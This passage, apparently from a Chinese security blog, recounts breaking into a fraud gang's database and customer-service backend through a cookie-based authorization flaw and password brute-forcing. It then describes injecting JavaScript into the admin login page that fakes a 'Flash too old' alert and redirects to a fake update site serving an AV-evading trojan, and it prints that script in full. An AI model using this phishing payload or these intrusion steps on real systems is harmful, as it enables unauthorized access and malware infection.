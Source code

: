 ## 3.1控制数据库

登陆mysql数据库查看诈骗嫌疑人登陆IP  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165203.png)  
杭州的电信基站动态IP，判断是家庭路由，暂无溯源价值。  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165204.png)

## 3.2控制客服系统

第一套诈骗源码的客服系统使用的是网上在线客服系统  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165205.png)  
在后台翻到了客服的后台登陆地址，前端显示账号存在or密码错误，无奈账号没爆破成功。  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165206.png)  
随即笔者自己注册了该客服系统，通过adminid配合uid遍历SetCookie，越权成功，拿到客服账号。  

![](https://gitee.com/fuli009/images/raw/master/public/20211026165207.png)

  
中文账号==  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165208.png)  
爆破拿到密码  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165209.png)  
登陆客服后台  
整个诈骗话术链  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165211.png)  
与受害人聊天记录

  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165212.png)  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165213.png)

  

## 3.3使用flash钓鱼

在控制诈骗app服务器权限后，笔者使用flash钓鱼试图控制诈骗团伙个人PC。  
在后台登陆成功后跳转的文件插入跳转js 跳转到事先准备好的假的flash更新页面  
事先准备：免杀马一只 flash假域名一个(最好是包含有"flash"的字样)

    
    
    <script>window.alert = function(name){var iframe = document.createElement("IFRAME");iframe.style.display="none";iframe.setAttribute("src", 'data:text/plain,');document.documentElement.appendChild(iframe);window.frames[0].window.alert(name);iframe.parentNode.removeChild(iframe);};alert("您的FLASH版本过低，请尝试升级后访问改页面!");window.location.href="https://www.flashxxxx.com";</script>  
    

效果：  
输入账号密码后登录，此时加载以上JavaScript。  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165214.png)  
点击"确认"跳转到事先伪造的flash更新页面网站，诱导下载点击。  
![](https://gitee.com/fuli009/images/raw/master/public/20211026165215.png)  
但是最后并未上线，通过日志发现诈骗团伙是登陆了该后台的，此处也算是一个小遗憾。
